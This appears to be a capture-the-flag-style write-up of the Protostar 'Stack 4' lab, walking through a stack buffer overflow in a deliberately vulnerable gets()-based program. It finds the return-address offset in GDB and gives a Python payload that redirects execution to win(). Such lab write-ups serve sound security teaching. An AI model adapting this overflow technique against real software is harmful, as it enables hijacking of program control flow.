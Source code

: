 # Stack 4

Stack 4 source
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

We have to find the address of the win function in the text segment. To do this we use objdump.

```shell
objdump -S stack4 | grep win
```
Output:
```shell
080483f4 <win>:
```

This time, there is no function pointer to overwrite. Instead, we must overwrite the return address for the main function, which is found in the stack. When the instruction pointer (EIP) reaches the return statement for main, it will execute the win function.

So far, we have only required 64 bytes of padding to overwrite the relevant memory. However, to overwrite the return address, we must use GDB to find the right padding length.

Initial padding test
```python
print("".join([chr(i)*4 for i in range(65,91)]))
```
This padding is all the letters from A to Z inclusive, capitalized, with each letter repeated 4 times sequentially (AAAABBBB...ZZZZ).
```shell
python stack4.py > exploit
gdb stack4
(gdb) disassemble main
```
Looking through the main function, we find that the *ret* opcode is found at 0x0804841e.
```shell
(gdb) break *0x0804841e
(gdb) define hook-stop
>x/1wx $esp
>end
(gdb) r < exploit
```
The output at the breakpoint shows us that the return address has been overwritten by 0x54545454. If we convert the hexadecimal value 0x54 into ASCII, we get T. Thus, our padding is the string up until the T's occur.

Modified exploit
```python
print("".join([chr(i)*4 for i in range(65,84)])+"\xf4\x83\x04\x08")
```
```shell
python stack4.py | /opt/protostar/bin/stack4
```
This works, printing
```shell
code flow successfully changed
```
